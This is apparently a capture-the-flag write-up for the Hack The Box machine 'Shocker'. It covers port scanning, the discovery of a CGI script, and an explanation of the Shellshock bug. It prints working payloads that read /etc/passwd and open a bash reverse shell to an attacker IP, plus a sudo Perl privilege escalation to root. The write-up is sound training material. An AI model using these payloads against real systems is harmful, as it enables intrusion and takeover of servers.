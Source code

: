 
![shocker badge](images/shockerbadge.jpg)

Shocker is a Linux machine rated Easy on HTB.

# Information Gathering and Vulnerability Identification

## OSINT

Shocker is a likely reference to the [Shell Shock vulnerability](https://en.wikipedia.org/wiki/Shellshock_(software_bug)).

## Port Scan

`nmap -sC -sV -oA initial 10.10.10.56`

![nmap results](images/shockernmap.jpg)

We have two ports to probe. (80 and 2222)

Before we dive into them, let's start another nmap scan to cover all ports.

`nmap -p- -oA all 10.10.10.56`

![scan all](images/shockernmapall.jpg)

The service identified is based on the typical services associated with each port. It may not be accurate. Compare the SERVICE on port 2222 with our initial scan with version detection.

## HTTP (Port 80)

These are standard starting points for webservers:

* Visit the page in a browser
* Bust for directories and files
* Inspect the DOM and sources using Developer Tools if necessary

### Browsing

![bug](images/dontbugme.jpg)

This image pretty much confirms that we need to look for a shellshock vulnerability here.

### Testing For Shell Shock

If not for the box name and the image, I might not have thought of testing for this specific vulnerability straightaway. This box is didactic.

#### What is Shell Shock?

[Cloudflare has a fantastic explanation here.](https://blog.cloudflare.com/inside-shellshock/)

TL;DR

* Web servers at times need other programs on the machine to respond to a **request**.
* To facilitate that, web servers need to **share information about the request** with other programs.
* They do that by setting the information they want to share as **environment variables** in the shell. (In this case, the shell is Bash.)
* But some versions of Bash has a flaw that causes it to **treat some variables as commands to be executed**.

This vulnerability allows code to be executed by a remote attacker who is manipulating requests sent to the server.

#### Testing For Shell Shock

The cgi-bin holds server-side scripts, so it's the natural attack vector. Let's see if it exists.

![cgi-bin](images/cgi403.jpg)

403 Forbidden means that we are not authorized to access, but it does exist.

Now, let's look for scripts that we can use to test for shell shock. While we may not be able to access the directory, we might be able to access files within it.

**Set up a scan with dirbuster.**
* Look for common cgi script filetypes like shell, perl, or php scripts.

![dirbuster setup](images/dirbustersetup.jpg)

**Dirbuster Results**

![shell script](images/shellscript.jpg)

The file **user.sh** might be what we are looking for.

Opening it up, it seems like a shell script that shows the uptime.

```
Content-Type: text/plain

Just an uptime test script

 00:45:01 up  2:16,  0 users,  load average: 0.00, 0.00, 0.00
 ```
Now, let's use Burp Repeater to test for Shell Shock vulnerability.

Burp Repeater will send a request for user.sh with a modified header value. If the system is vulnerable to Shell Shock, we can get bash to execute code.

Enter this as the User-Agent value.

`() { :; }; echo; /bin/bash -c 'cat /etc/passwd'`

![burp repeater](images/shockerburprepeater.jpg)

Look at the response on the right-hand side. The passwd file is returned as part of the response.

**The system is vulnerable to Shell Shock.**

Before we move on to getting a shell on the system, let's take a closer look at the modified header value to understand how it works.

`() { :; }; echo; /bin/bash -c 'cat /etc/passwd'`

* `() { :; };` - syntax of an empty bash function

* `echo;` - the subsequent command works without this echo command, but you need it to receive a well-formed HTML response ([with an empty line between the headers and the content](https://www.w3.org/Protocols/rfc2616/rfc2616-sec4.html)). In other words, if you expect text output and you want to see it as part of the HTML response, you need this.

* `/bin/bash -c 'cat /etc/passwd'` - getting a new bash session to print the passwd file

# Attacks and Exploits

## Exploiting Shellshock

First, let's setup a listener for catching our reverse shell.

`nc -nvlp 8888`

Then, send another request for user.sh with the header value modified as:

`() { :;}; /bin/bash -i >& /dev/tcp/10.10.X.X/8888 0>&1`

This will get a bash reverse shell, which is the natural choice here as bash is available. Note that `echo;` is not needed here because we are not interested in the HTML response.

```
root@kali:~# nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.56] 58462
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ cd ~
cd ~
shelly@Shocker:/home/shelly$ ls
ls
user.txt
shelly@Shocker:/home/shelly$ cat user.txt
cat user.txt
```
Got the user flag!

<details>
<summary>Expand this if you want to understand the bash reverse shell.</summary>

[Fantastic but more technical explanation here](https://hypothetical.me/post/reverse-shell-in-bash/)

`/bin/bash -i >& /dev/tcp/10.10.X.X/8888 0>&1`

* `/bin/bash` - getting a new bash session

* `-i` - in interactive mode

* `>&` - redirecting both standard output and error

* `/dev/tcp/10.10.X.X/8888` - to TCP socket associated with IP address 10.10.X.X at port 8888

* `0>&1` - redirect standard input to standard output which is now a socket
</details>

## Privilege Escalation

Run `sudo -l` to list user shelly's privilege.

```
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
  ```
Since we can run Perl as root (without password!), we can escalate our privilege by launching a new shell with Perl. By running perl with root privileges,

`sudo perl -e 'exec "/bin/bash";'`

* `sudo` - execute command as another user; if you do not specify a user (like what we are doing here), it will assume you want to execute the command as root (superuser)

* `perl` - Perl language interpreter; we use it here because we can run it with root privileges.

* `-e` - indicates that the Perl command `exec "/bin/bash";` should be executed

After Perl executes the command to get us a bash shell, let's confirm if we have root privileges.

```
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/bash";'          
sudo perl -e 'exec "/bin/bash";'
whoami
root
```

# Ending Thoughts

Although this is an easy straightforward box, I've learned more by exploiting manually using Burp to sent requests and trying to understand every step of the way.

You can also use Metasploit or other available exploits to root this box.

**References**

* https://www.netsparker.com/blog/web-security/cve-2014-6271-shellshock-bash-vulnerability-scan/
* https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability
* https://resources.infosecinstitute.com/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/#gref
* https://blog.knapsy.com/blog/2014/10/07/basic-shellshock-exploitation/
* https://github.com/opsxcq/exploit-CVE-2014-6271
* https://www.surevine.com/shellshocked-a-quick-demo-of-how-easy-it-is-to-exploit/ (A simple demo)

